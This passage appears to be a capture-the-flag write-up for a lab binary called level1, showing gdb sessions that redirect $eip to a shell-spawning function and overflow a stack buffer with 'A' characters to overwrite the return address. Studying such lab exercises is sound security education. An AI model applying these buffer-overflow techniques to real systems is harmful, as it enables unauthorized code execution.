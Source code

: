 ```bash
Breakpoint 1 at 0x804848d

(gdb) run
Starting program: /home/user/level1/level1

Breakpoint 1, 0x0804848d in main ()
(gdb) set $eip = 0x^CQuit

(gdb) info registers
eax            0xbffff690       -1073744240
ecx            0xbffff774       -1073744012
edx            0xbffff704       -1073744124
ebx            0xb7fd0ff4       -1208152076
esp            0xbffff680       0xbffff680
ebp            0xbffff6d8       0xbffff6d8
esi            0x0      0
edi            0x0      0
eip            0x804848d        0x804848d <main+13>
eflags         0x200282 [ SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51

(gdb) set $eip = 0x8048444

(gdb) continue
Continuing.
Good... Wait what?
$ whoami
level1
```

#### Overwriting $EIP

- [Example tutorial](https://www.go4expert.com/articles/stack-overflow-eip-overwrite-basics-t24917/)

When giving a long string as arguments, we can see we can overwrite the $eip register

```bash
(gdb) run <<< 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
Starting program: /home/user/level1/level1 <<< 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) info registers
eax            0xbffff690       -1073744240
ecx            0xb7fd28c4       -1208145724
edx            0xbffff690       -1073744240
ebx            0xb7fd0ff4       -1208152076
esp            0xbffff6e0       0xbffff6e0
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0x41414141       0x41414141
eflags         0x210282 [ SF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
```